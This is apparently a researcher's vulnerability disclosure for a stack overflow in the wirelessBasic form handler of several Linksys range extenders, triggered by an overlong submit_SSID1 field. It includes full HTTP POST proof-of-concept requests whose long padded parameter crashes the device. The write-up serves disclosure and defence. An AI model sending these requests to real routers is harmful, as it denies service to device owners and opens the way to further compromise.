



# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `wirelessBasic` function, `submit_SSID1` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `submit_SSID1` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

<div  align="center"></div>

Eventually, in `wirelessBasic` function, the initial input will be directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

Vulnerability trigger steps:

* set `submit_SSID1`=**aaaaa......**, in (`wirelessBasic`)
* Trigger the vulnerability, in (`wirelessBasic`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> wirelessWizard、inicBasic function exists the same problem, also can set the value of submit_SSID1.
>
> There are many functions that can trigger vulnerabilities.


## PoC

set `submit_SSID1`=**aaaaa......**, in (`wirelessBasic`)

```http
POST /goform/wirelessBasic HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1465
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=ZNH2N5g26vZCAUZeiae59dHB3fBOXB76
Upgrade-Insecure-Requests: 1

radiohiddenButton=&wirelessmode=&TXRate=&submit_SSID1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&submit_SSID2=&submit_SSID3=&submit_SSID4=&submit_SSID5=&submit_SSID6=&submit_SSID7=&submit_SSID8=&submit_SSID1_5G=&bssid_num=&broadcastssid=&apisolated=&mbssidapisolated=&sz11aChannel=&sz11bChannel=&sz11gChannel=&wds_mode=&wds_encryp_type=&ap_Key4Str1_2G=&wds_list=&n_mode=&n_bandwidth=&n_coexistence=&n_gi=&n_mcs=&n_rdg=&n_extcha=&n_stbc=&n_amsdu=&n_autoba=&n_badecline=&n_disallow_tkip=&tx_stream=&rx_stream=
```

Trigger the vulnerability, in (`wirelessBasic`)

```http
POST /goform/wirelessBasic HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1465
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=ZNH2N5g26vZCAUZeiae59dHB3fBOXB76
Upgrade-Insecure-Requests: 1

radiohiddenButton=&wirelessmode=&TXRate=&submit_SSID1=a&submit_SSID2=&submit_SSID3=&submit_SSID4=&submit_SSID5=&submit_SSID6=&submit_SSID7=&submit_SSID8=&submit_SSID1_5G=&bssid_num=&broadcastssid=&apisolated=&mbssidapisolated=&sz11aChannel=&sz11bChannel=&sz11gChannel=&wds_mode=&wds_encryp_type=&ap_Key4Str1_2G=&wds_list=&n_mode=&n_bandwidth=&n_coexistence=&n_gi=&n_mcs=&n_rdg=&n_extcha=&n_stbc=&n_amsdu=&n_autoba=&n_badecline=&n_disallow_tkip=&tx_stream=&rx_stream=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

